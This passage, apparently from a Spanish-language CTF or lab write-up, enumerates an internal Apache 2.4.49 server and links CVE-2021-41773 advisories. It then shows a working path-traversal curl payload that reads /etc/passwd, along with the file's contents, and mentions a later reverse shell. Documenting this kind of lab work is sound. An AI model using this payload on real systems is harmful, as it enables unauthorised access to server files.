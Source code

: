 Y efectivamente corresponde a un servicio web, y para nuestra sorpresa, es el ambiente test que se menciona en las notas que pillamos en un principio. Podríamos tal vez ver mayor info según los headers que tenga. 

```bash
$ curl -s -I 172.16.0.3
HTTP/1.1 200 OK
Date: Wed, 20 Oct 2021 23:35:00 GMT
Server: Apache/2.4.49 (Unix)
Last-Modified: Tue, 19 Oct 2021 00:04:26 GMT
ETag: "1aab-5ce63bb2e2140"
Accept-Ranges: bytes
Content-Length: 6827
Content-Type: text/html
```

Si ponemos atención, nos muestra que el servicio web corresponde a un Apache 2.4.49. Esta versión es susceptible a una vulnerabilidad de tipo path traversal, y que posteriormente se pudo obtener ejecución remota de comandos bajo la misma vía. 

- [Apache HTTP Server 2.4 vulnerabilities](https://httpd.apache.org/security/vulnerabilities_24.html)
- [CVE-2021-41773  -  AttackerKB](https://attackerkb.com/topics/1RltOPCYqE/cve-2021-41773/rapid7-analysis?referrer=blog)

- [Apache HTTP Server CVE-2021-41773 Exploited in the Wild  -  Rapid7 Blog](https://www.rapid7.com/blog/post/2021/10/06/apache-http-server-cve-2021-41773-exploited-in-the-wild/)

Con el caso de nosotros, no será necesario explotar el RCE, a menos que previamente hagamos transferencia de archivos nuevamente, para que podamos tener la reversa, o bien realizar port forwarding a nuestra máquina local.

Probamos agrega el payload al curl que estábamos probando en un principio y...

```bash
curl "172.16.0.3/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"

howard@necronomicon:~$ curl "172.16.0.3/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
howard:x:1000:1000::/home/howard:/bin/bash
```
